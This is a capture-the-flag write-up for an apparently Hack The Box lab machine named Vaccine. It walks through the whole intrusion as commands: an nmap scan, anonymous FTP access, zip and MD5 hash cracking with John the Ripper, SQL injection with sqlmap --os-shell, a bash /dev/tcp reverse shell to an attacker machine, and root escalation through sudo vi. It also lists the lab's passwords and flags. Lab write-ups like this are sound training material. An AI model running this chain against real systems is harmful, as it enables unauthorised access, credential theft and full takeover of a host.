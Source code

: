## Vaccine Solution

### Besides SSH and HTTP, what other service is hosted on this box?
1. Run an nmap scan with the `-sV` (version of services) `-sC`(default scripts for service discovery and vulnerability detection) 
   ```bash
   nmap -sV -sC {target_machine_ip}
   nmap -sC -sV 10.129.251.21
   ```
![Screenshot 2024-02-19 at 8 50 14 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6e42d6b3-b7cf-4f42-978f-8213b6bb9f10)

**Answer: ftp**

### This service can be configured to allow login with any password for specific username. What is that username? 

As with the nmap results above the `sC` option was able to determine that **Anonymous FTP login allowed**. If you do a google search the username for this is usually `anonymous`

**anonymous**

### What is the name of the file downloaded over this service?

1. Let's connect via ftp

```bash
ftp {target_machine_ip}
```

2. For username just use `anonymous` and just enter blank password.
3. Enter `ls` and you will find `backup.zip`
4. Run `get backup.zip`

![Screenshot 2024-02-19 at 11 41 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5a467605-0e2d-44f8-b10c-26c3235f9790)



**Answer: backup.zip**

### What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

1. We try to unzip the backup.zip however a password is required.
   ![Screenshot 2024-02-20 at 12 00 57 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ae3c46ff-0939-4956-8cc9-8d8c92440424)


2. Do a quick google search and you will find the answer

**Answer: zip2john** 


### What is the password for the admin user on the website?

1. Let's run the `zip2john` script to crack the password. First let's obtain the password hashes.
   ```bash
   zip2john backup.zip > zip.txt
   ```
 
   ![Screenshot 2024-02-20 at 11 08 05 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1a4ac24e-c684-4583-8f3d-77fd3d0e2db3)

2. Then let's crack the password for the backup.zip
   ```bash
   john zip.txt   
   ```
   ![Screenshot 2024-02-20 at 11 08 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ed883cff-3296-4b69-b6cb-88d6a3d2633a)


3. Now let's unzip backup.zip with the password `741852963`. This gives us two files `index.php` and `style.css`
   ```bash
   unzip backup.zip
   ```
![Screenshot 2024-02-20 at 11 10 22 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d214ebb6-65ae-4578-ab97-ad4f922a922b)

4. Now let's investigate the index.php `vim index.php`. Here we find a hashed password `2cb42f8734ea607eefed3b70af13bbd3` for the username `admin`. 
   
![Screenshot 2024-02-20 at 11 21 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/89307436-b4f4-4097-8c85-98c40531cd06)

5. Let's analyze the hash type by going on any hash analyzer. We use [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier) in this case and find that it is MD5 format.

   ![Screenshot 2024-02-20 at 11 35 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f49117bb-77a6-4b85-beab-f66fc95b04db)


6. Create a file called `admin-hash.txt` then insert the hash found in the previous step. Let's crack the hash password using john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin-hash.txt
```
![Screenshot 2024-02-20 at 11 42 25 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/39740423-3616-4cf0-a75f-c1af601dd2e7)


**Answer: qwerty789**


### What option can be passed to sqlmap to try to get command execution via the sql injection?

1. Login using username `admin` and password `qwerty789`
2. Go to browser and get the cookie `PHPSESSID` value
![Screenshot 2024-02-22 at 12 45 40 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9954818a-ad05-4789-9292-8b6e202e1b8a)



3. Next as we view with the page after we login, we can see one possible form to attack with SQL injection. We observe that submitting it appends a query parameter `search`
![Screenshot 2024-02-22 at 12 49 49 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6f874149-cb51-4d73-81a8-488be978f271)

4. Let's use sqlmap and run the following.

```bash
sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}"

sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell

```
5. We have spawned a os-shell with user postgres. However executing `sudo -l` does not yield any meaningful results. The os-shell is limited in commands it can execute. It is not interactive 

![Screenshot 2024-02-22 at 12 56 35 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/508193c6-850c-405d-89c9-8c13377c2e08)

5. Let's go to our attack machine and create a netcat listner server

```bash
  nc -lvnp 5000
```

6. On our target machine running sqlmap os-shell let's connect to our server to spawn a reverse shell.

```bash
 bash -c  "bash -i >& /dev/tcp/{attack_machine_ip}/5000  0>&1"

```

7. We have spawned a reverse shell however we do not have an interactive shell yet.
![Screenshot 2024-02-22 at 1 11 58 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/e4502837-7e73-4692-8d16-6c07b0d3aae5)

8. Run the following to have an interactive shell. 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
export TERM=xterm
```

9. We now have an interactive shell. Hovever we have to know the password of user `postgres` to run `sudo -l`
    
![Screenshot 2024-02-22 at 2 00 25 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f39b4b0a-70c7-45ab-954f-325620f72896)

10. We have to find the password in the system. And since this server running a website, one of the places we can look at is `/var/www/`
![Screenshot 2024-02-22 at 2 26 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/60fdfdc5-b94d-487a-8b70-c05438972859)

11. Let's explore each of the files in the `html` folder. Under the `dashboard.php` file we find. 

![Screenshot 2024-02-22 at 2 32 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2582d9ed-becf-4bd2-be03-eb392cde88b0)


12. We test this password by using it for the password prompt for `sudo -l` Where we find that we have sudo rights for vi program.

![Screenshot 2024-02-22 at 2 10 53 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/752994b0-6b2d-4cf4-9aa4-9fa83b68a295)

**Answer: vi** 

### Submit user flag

1. Our connection via reverse shell is always being disconnected from the server. Since we know the password (P@s5w0rd! of the user `postgres`, let's just connect via ssh.
   ```bash
   ssh postgres@{target_machine_ip}
   ```

2.  Run `cd ~/` to go to `postgres` user's folder to see if there is something interesting. In here we will find `user.txt`

![Screenshot 2024-02-22 at 2 49 00 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/09726c3d-4635-4b0d-9f71-86de6ab0e1f9)

**Answer:ec9b13ca4d6229cd5cc1e09980965bf7**

### Submit the root flag

1. Continuing with our terminal established via ssh connnection in the previous section. We know that our current `postgres` user has sudo privileges for `vi`. Now let's attempt priviledge escalation.
   
2. Let's go to [https://gtfobins.github.io/gtfobins/vi/#shell](https://gtfobins.github.io/gtfobins/vi/#shell) to check if we can run a command to escalte our privileges to root.
   
3. Run the following:
   ```bash
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
   ```
   ![Screenshot 2024-03-10 at 4 29 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/4b7fc1a9-452d-4b4f-a3cc-3926f46aa5ac)
   
4. Then execute the following from inside vi based on GTFOBins
   ```bash
   :set shell=/bin/sh
   :shell
   ```
5. Now we have escalated our privileges and have a shell with root privileges. Now let's look for `root.txt`
   ```
   find / -type f -name "root.txt"
   ```
![Screenshot 2024-03-10 at 4 33 06 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2666f836-1ec0-4d42-8533-ed61a4eb84cf)

   
6. Now let's look at the file to get flag
   ```bash
   vi /root/root.txt
   ```
**Answer: ddd6e058e814260bc70e9bbdef2715849**

